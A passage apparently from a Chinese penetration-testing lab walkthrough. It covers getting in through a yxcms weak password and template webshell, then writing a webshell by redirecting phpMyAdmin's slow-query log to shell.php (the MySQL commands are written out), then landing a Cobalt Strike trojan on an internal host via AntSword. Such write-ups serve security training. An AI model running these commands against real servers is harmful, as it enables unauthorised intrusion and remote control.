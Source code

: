 ## 外网打点：

### 漏洞一：yxcms 弱口令登录，插件模板写马

### 漏洞二：phpMyAdmin 慢查询写马

```bash
show variables like '%slow%';
set GLOBAL slow_query_log_file='C:/phpStudy/WWW/shell.php';
set GLOBAL slow_query_log=on;
set GLOBAL log_queries_not_using_indexes=on;
```

[![](assets/1701827767-76bc66dc2ae88212cb1d8dea489cdad4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191101-7a4f48e6-9103-1.png)

## 内网上线 (143 机器)：

### CS 文件马上线：

通过 CS 制作 exe 文件木马上传蚁剑然后运行上线 CS

systeminfo 查看补丁信息：

[![](assets/1701827767-957145b47c7aea3eef2008f3492feeae.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191219-a85623e0-9103-1.png)
